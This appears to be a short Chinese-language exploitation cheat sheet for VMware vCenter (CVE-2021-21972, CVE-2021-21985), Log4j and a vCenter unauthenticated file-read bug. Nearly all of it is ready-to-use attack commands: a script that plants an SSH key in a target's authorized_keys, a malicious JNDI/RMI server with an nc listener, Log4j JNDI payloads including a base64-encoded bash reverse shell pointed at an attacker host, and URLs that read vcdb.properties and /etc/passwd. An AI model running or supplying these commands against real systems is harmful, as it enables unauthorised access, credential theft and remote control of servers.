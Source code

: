 写公私钥（需要22端口开放）

    
    
    python3 CVE-2021-21972.py -t 10.16.8.168 -p /home/vsphere-ui/.ssh/authorized_keys -o unix -f c://Users/think/.ssh/id_rsa.pub

遍历写shell（时间较久）

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152852.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152841.png)

CVE-2021-21985

    
    
    java -cp  JNDI-Injection-Bypass-1.0-SNAPSHOT-all.jar payloads.EvilRMIServer 8.8.8.8  
      
    nc -lvvp 55552  
      
    python3 cve-2021-21985.py https://host rmi://8.8.8.8:1099/Exploit

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152841.png)

Log4j

  

${jndi:ldap://exp}

    
    
    java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "cmd /c whoami" -A "172.30.84.134"  
      
    java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,base编码内容}|{base64,-d}|{bash,-i}" -A "ip"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152856.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152841.png)

vmware未授权任意文件读取漏洞

 **漏洞影响版本**

已知影响版本 VMware vCenter 6.5.0a-f  
安全版本 VMware vCenter 6.5u1

    
    
    # windows  
    /eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties  
      
    # linux  
    /eam/vib?id=/etc/passwd
